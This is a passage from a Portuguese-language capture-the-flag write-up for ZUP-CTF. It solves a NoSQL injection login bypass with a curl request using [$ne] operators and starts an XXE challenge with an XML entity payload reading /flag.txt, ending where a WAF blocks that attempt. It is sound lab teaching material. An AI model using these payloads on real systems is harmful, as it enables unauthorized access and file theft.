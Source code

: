 Injeção NoSQL, nos permitiu alterar a condição de `equals` para `not equals`.

**Solução**

Identificando qual era a requisição sendo feita, bastou usar o amado curl para alterar
de `username=foo` para `username[$ne]=foo` (e o mesmo pra senha):
```bash
>curl 'https://vaccinated.zup.com.br/' \         
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'username[$ne]=foo&password[$ne]=bar'

ZUP-CTF{N_O5_qL__1nj3cT_1on}
```

**Flag**

ZUP-CTF{N_O5_qL__1nj3cT_1on}

## Entidade Insegura
**Falha**

Ao processar XMLs enviados pelo cliente é necessário tomar
bastante cuidado com falhas de XXE. No XML é possível
criar "variáveis" (entities) que referenciam seu conteúdo
de arquivos externos, locais (LFI) ou remotos (SSRF).
Assim, o usuário pode conseguir acesso a arquivos locais
ou escalar para um SSRF conseguindo fazer requisições para
a rede local, privada.

**Solução**

Se prepara que essa vai ser longa hahaha:

Ok... Olhando o site foi possível ver o upload de XMLs,
criei um XML referenciando o `/flag.txt` (que na página
`about` contava que a flag estaria lá):
```xml
<?xml version='1.0'?>
<!DOCTYPE foo [
    <!ENTITY foo SYSTEM "file:///flag.txt">
]>
<users>
    <user>
        <username>username</username>
        <password>password</password>
        <name>name</name>
        <email>&foo;</email>  
        <group>group</group>
    </user>
</users>
```

E... Não funcionou 🙃. Bom, na verdade não dava pra saber
se funcionou ou não, o sistema retornou um erro dizendo
que o arquivo foi bloqueado pelo WAF, removendo a entidade
remota o arquivo ia tranquilamente. Portanto, o WAF
provavelmente fazia alguma validação no texto do XML.
